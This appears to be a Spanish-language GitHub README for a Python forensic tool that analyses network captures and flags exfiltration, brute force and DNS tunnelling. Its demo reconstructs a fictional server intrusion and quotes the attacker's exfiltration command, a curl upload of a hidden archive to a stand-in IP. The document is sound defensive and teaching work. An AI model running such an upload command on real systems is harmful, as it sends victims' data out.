

# Analizador forense de capturas de red (.pcap)

Herramienta en Python (scapy) que lee una captura `.pcap` / `.pcapng` y responde las preguntas que se hace
un perito ante tráfico de red: **quién habló con quién, qué nombres se resolvieron, qué sitios se visitaron,
cuánto se subió y qué parece un ataque**. Genera un resumen en consola, CSV para trabajar en planilla y un
informe HTML.



## Qué saca

| Sección | Detalle |
|---|---|
| Cadena de custodia | SHA-256 de la captura antes y después del análisis; **verificación de integridad** del archivo (captura truncada, paquetes recortados por *snaplen*) |
| Conversaciones | Cliente → servidor (el cliente es quien mandó el SYN), bytes **subidos y bajados** por separado, duración |
| DNS | Consultas, tipo y respuestas |
| HTTP | Método, Host, URI, User-Agent, Content-Length y código de respuesta |
| HTTPS | Sitio visitado por el **SNI** del TLS ClientHello: viaja sin cifrar, no hace falta descifrar nada |
| SSH | Banners de cliente y servidor |

**Alertas** (indicios a confirmar, no conclusiones):

| Alerta | Cuándo salta |
|---|---|
| Posible exfiltración | Un equipo interno sube a una IP pública más de 500 KB (configurable) y más de 5 veces lo que baja |
| HTTP sospechoso | `PUT`/`POST` grande, o pedido cuyo `Host` es una IP en lugar de un nombre |
| IP directa sin DNS | Conexión saliente a una IP pública que nunca se resolvió por DNS antes (típico de malware y de exfiltración con `curl` a una IP) |
| Fuerza bruta | 10 o más conexiones de una misma IP externa a SSH, RDP, FTP, Telnet, SMB o VNC |
| Sesión distinta tras fuerza bruta | Una conexión de esa misma IP con 10 veces más tráfico que la mediana de sus intentos: **sugiere que el acceso funcionó** |
| DNS con nombre aleatorio | Etiqueta larga y con mucha entropía (túnel DNS, dominios generados por malware) |
| Credenciales en texto claro | `Authorization: Basic` en HTTP, `USER`/`PASS` en FTP |

## Uso

```bash
pip install -r requirements.txt          # scapy
python analizar_pcap.py captura.pcap --zona -3 -o salida/
```

- `--zona -3`: muestra las horas en hora argentina (la captura guarda UTC).
- `-o salida/`: genera `informe.html`, `alertas.csv`, `conversaciones.csv`, `dns.csv`, `http.csv` y `tls_sni.csv`.
- `--umbral-subida 500000`: bytes subidos a partir de los cuales se alerta posible exfiltración.

## Demo: el Caso 3 de mi laboratorio, visto desde la red

En mi [laboratorio forense](https://github.com/agusfar45/laboratorio-perito-informatico) reconstruí un ataque
a un servidor Linux **a partir de su `auth.log`**. Acá armé la captura de red que habría registrado ese
mismo incidente ([generar_captura_demo.py](generar_captura_demo.py)) y la analicé con la herramienta:

```bash
python generar_captura_demo.py demo/incidente_servidor.pcap
python analizar_pcap.py demo/incidente_servidor.pcap --zona -3 -o demo/salida
```

→ [salida de consola](demo/salida_consola.txt) · [informe HTML](demo/salida/informe.html) · [CSV](demo/salida/)

| Lo que dice el `auth.log` (Caso 3) | Lo que encuentra el analizador en la red |
|---|---|
| Fuerza bruta SSH desde 3 IPs | 3 alertas de **fuerza bruta**: 198.51.100.23, 203.0.113.77 y 192.0.2.150 |
| `Accepted password for backup from 203.0.113.77` a las 05:17:42 | **Sesión distinta** de 203.0.113.77 a las 05:17:42 (02:17:42 en UTC-3), 85 KB en 749 s, 36 veces la mediana de sus intentos |
| `curl -T /tmp/.c.tgz http://198.51.100.200/up` | **Posible exfiltración** (900.125 bytes subidos, 83 bajados), **PUT** con `curl/8.5.0` a un Host que es una IP, **sin DNS previo**; respuesta `201 Created` |
| `admin` desde 192.168.1.10 con clave | Sesión SSH interna, **sin alerta** (no hay falso positivo) |

Las dos fuentes son independientes: el log del servidor puede borrarse (el atacante usó `shred`), la
captura de red no la controla el intruso. Que coincidan fortalece la reconstrucción.

> **Todo es ficticio.** Las IPs son de los rangos de documentación (RFC 5737), los dominios son `.example`
> (RFC 2606) y el "archivo exfiltrado" son bytes aleatorios. La captura se genera con semilla fija: con
> scapy 2.8 sale siempre idéntica (SHA-256 `ba65aa86…1036`).

## Decisiones de diseño

- **El contenido de la red no es confiable.** El SNI se parsea a mano verificando cada largo, porque un
  paquete puede venir truncado o armado para romper el parser (hay un test que lo corta byte a byte). En el
  HTML todo se escapa: un `Host: <script>…` en la captura no se ejecuta en el informe.
- **Subida y bajada por separado.** El total de bytes no dice nada; la relación entre lo que sube y lo que
  baja es lo que distingue una exfiltración de una descarga.
- **Integridad antes que análisis.** scapy procesa una captura cortada sin avisar; un perito tiene que saber
  que puede faltar tráfico, así que el archivo se recorre registro por registro antes de analizarlo.
- **Alertas como indicios.** Cada alerta dice qué observó y qué hay que cruzar ("cruzar con auth.log");
  ninguna afirma que hubo un delito.

## Pruebas

```bash
python -m unittest -v
```

12 pruebas:
- parsers (SNI válido, truncado y basura; HTTP; entropía; IPs públicas y privadas);
- el escenario completo de la demo, incluida la ausencia de falsos positivos;
- captura truncada;
- pcapng con IPv6, túnel DNS, credenciales en claro e intento de inyección HTML.

## Limitaciones

- No reensambla TCP: HTTP y TLS se reconocen al comienzo de cada segmento. Un encabezado partido en dos
  segmentos no se ve. Para eso están Wireshark ("Follow TCP Stream") y Zeek.
- **TLS 1.3 con ECH** (Encrypted Client Hello) y **QUIC/HTTP3** ocultan el SNI: el sitio no aparece.
- scapy es lento para capturas de varios GB; ahí conviene `tshark` o Zeek, y usar este script sobre un recorte.
- Los umbrales de las alertas son heurísticos: se ajustan a cada red.

## Próximos pasos

- Probarlo con capturas públicas de incidentes reales
  ([malware-traffic-analysis.net](https://www.malware-traffic-analysis.net/)). **Ojo:** traen malware real;
  se abren en una máquina virtual aislada.
- Reensamblado de flujos TCP y extracción de archivos transferidos por HTTP (como *Export Objects* de Wireshark).

## Uso legal

Capturar tráfico de terceros sin autorización puede ser delito (Ley 26.388, art. 153 del Código Penal).
Esta herramienta es para capturas obtenidas legítimamente: redes propias, laboratorios o evidencia
entregada en el marco de una pericia.

---

Agustín Farfán · Ingeniería en Informática (UCASAL) · [laboratorio forense](https://github.com/agusfar45/laboratorio-perito-informatico)
